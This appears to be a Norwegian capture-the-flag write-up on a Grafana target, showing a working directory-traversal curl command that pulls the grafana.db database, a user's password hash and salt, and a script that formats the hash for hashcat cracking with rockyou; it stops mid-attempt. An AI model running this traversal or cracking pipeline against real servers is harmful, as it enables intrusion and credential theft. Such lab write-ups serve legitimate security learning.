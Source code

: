 # Grafana

## Hente databasen
Grafana-versjonen er sårbar for directory traversal.

Brukte scriptet på https://www.exploit-db.com/exploits/50581 til å identifisere hvilken plugin-path som fungerte, og så lastet ned med curl for å få databasen:

```
curl --path-as-is http://grafana.gojira.rocks:3000/public/plugins/mssql/../../../../../../../../../../../../../var/lib/grafana/grafana.db --output grafana.db
```
Kjørte bare strings på filen og greppet etter "revenue" for å finne datoen til første flagg.

## Knekke passord
Sergei ligger i users-tabellen:
```
password = 251e3e14c9120255181277687ee4f6031f93cc134812e6961d13dbdcfa234a989cb8b941e0c6c82e3cb57eaaf6c3a2bd0e10
salt = 2kpLTS5IUO
rands = pxm945Auhb
```

Grafana bruker PBKDF2-HMAC-SHA256 med 10k iterasjoner ([lenke](https://nusgreyhats.org/posts/writeups/a-not-so-deep-dive-in-to-grafana-cve-2021-43798/)):

```go
func EncodePassword(password string, salt string) (string, error) {
	newPasswd := pbkdf2.Key([]byte(password), []byte(salt), 10000, 50, sha256.New)
	return hex.EncodeToString(newPasswd), nil
}
```

Hashcat forventer at både salt og passord er base64 i denne modusen. Har et script lagd ifbm en HTB-maskin (Health) som konverterer:
```python
#!/usr/bin/python3
import sys, base64, binascii

pwd = bytes(sys.argv[1], 'utf-8')
salt = bytes(sys.argv[2], 'utf-8')

salt_b64 = (base64.b64encode(salt)[:14]).decode('utf-8')
pwd_b64 = base64.b64encode(binascii.unhexlify(pwd)).decode('utf-8')

print("sha256:10000:{}:{}".format(salt_b64, pwd_b64))
```
```
sha256:10000:MmtwTFRTNUlVTw:JR4+FMkSAlUYEndofuT2Ax+TzBNIEuaWHRPb3PojSpicuLlB4MbILjy1fqr2w6K9DhA=
```

Kjører hashcat med rockyou som ordliste, men her var jeg muligens litt for rask. Saltet fra Grafana ble muligens base64-encodet to ganger nå. Prøver på nytt med:

```
sha256:10000:2kpLTS5IUO:JR4+FMkSAlUYEndofuT2Ax+TzBNIEuaWHRPb3PojSpicuLlB4MbILjy1fqr2w6K9DhA=
```

